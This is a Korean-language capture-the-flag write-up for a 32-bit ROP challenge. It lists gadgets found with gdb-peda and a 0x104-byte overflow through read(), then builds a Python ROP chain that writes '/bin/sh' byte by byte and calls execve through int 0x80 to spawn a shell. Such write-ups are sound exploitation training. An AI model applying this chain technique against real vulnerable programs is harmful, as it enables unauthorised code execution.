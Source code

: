 ## 함수 분석 / 취약점 발견
* checksec으로 NX bit가 걸려있어 기존의 LOB처럼 stack에서 shellcode를 실행시키지는 못한다.
rop1처럼 gadget이 두개 존재한다.
### gadget
```
   0x080483db <+0>:	add    DWORD PTR [ebx],eax
   0x080483dd <+2>:	ret    
```
### gadget2
```
   0x080483de <+0>:	mov    eax,ebx
   0x080483e0 <+2>:	ret
```
1. gadget과 연동해 원하는 주소에 원하는 값을 사용할 수 있다. ebx의 값을 조정할 수 있다면 좋을 것이다.
2. 따라서 추가로 ebx를 pop하는 gadget을 `0x08048486`에서 발견해 사용하였다.
```
gdb-peda$ x/2i 0x08048486
   0x8048486 <_fini+18>:	pop    ebx
   0x8048487 <_fini+19>:	ret
```
### main
1. ebp-0x100에 read 함수를 호출한다. 200byte만큼 입력을 받으므로 return address를 덮어씌울 수 있다.
2. int 0x80이 존재해 차후 execve를 호출하는데 쓰일 수 있다(eax = 0x11이면 호출 가능)


## 구현
1. 스택 + ebp의 크기가 0x104이므로 return address에 덮어씌우기전 먼저 채워준다.
```python
payload = b'\x00'*0x104
```
2. 이후 /bin/sh에 해당하는 ascii 값을 입력시켜준다.
```
for index, asciinum in enumerate([47, 98, 105, 110, 47, 115, 104]):
    payload += popebx_addr + p32(asciinum) + gadget2_addr
    payload += popebx_addr + p32(binsh_addr + index) + gadget_addr
```
* 각 ascii num을 입력하는 방식은 다음과 같다.
    1. pop ebx gadget으로 ebx을 원하는 ascii num으로 변경
    2. gadget2로 eax에 ebx의 값(ascii num)을 옮겨담음
    3. pop ebx gadget으로 문자열을 옮겨담을 주소를 입력(stack에 옮겨담음, bss도 가능)
        * stack에 옮겨담는 경우 stack의 주소가 변하면
    4. gadget으로 [ebx]에 ascii num인 eax를 입력
3. gadget과 gadget2로 eax, ebx에 11, /bin/sh의 주소 입력후 int 0x80으로 ret
```
payload += popebx_addr + p32(11) + gadget2_addr + p32(0x08048368) + popebx_addr + p32(binsh_addr) + int80_addr
```